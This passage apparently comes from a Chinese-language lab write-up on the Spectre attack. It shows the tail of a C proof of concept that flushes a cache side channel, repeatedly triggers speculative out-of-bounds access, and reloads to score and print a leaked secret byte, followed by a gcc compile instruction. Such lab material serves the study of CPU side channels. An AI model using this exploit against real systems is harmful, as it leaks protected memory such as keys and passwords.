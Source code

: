 ```c
	for (z = 0; z < 100; z++) { }
	s = restrictedAccess(index_beyond);
	array[s * 4096 + DELTA] += 88;
}

int main() {
	int i;
	uint8_t s;
	size_t index_beyond = (size_t)(secret - (char*)buffer);
	flushSideChannel();
	for (i = 0; i < 256; i++) scores[i] = 0;
	for (i = 0; i < 1000; i++) {
		printf("*****\n"); // MARK 1
		spectreAttack(index_beyond);
		usleep(10); // MARK 2
		reloadSideChannelImproved();
	}
	int max = 1;
	for (i = 1; i < 256; i++) {
		if (scores[max] < scores[i])
			max = i;
	}
	printf("Reading secret value at index %ld\n", index_beyond);
	printf("The secret value is %d(%c)\n", max, max);
	printf("The number of hits is %d\n", scores[max]);
	return (0);
}
```

保存为`SpectreAttackImproved.c`，然后编译运行。

```
gcc -march=native SpectreAttackImproved.c
```

![image-20220119122201255](spectre.assets/image-20220119122201255.png)
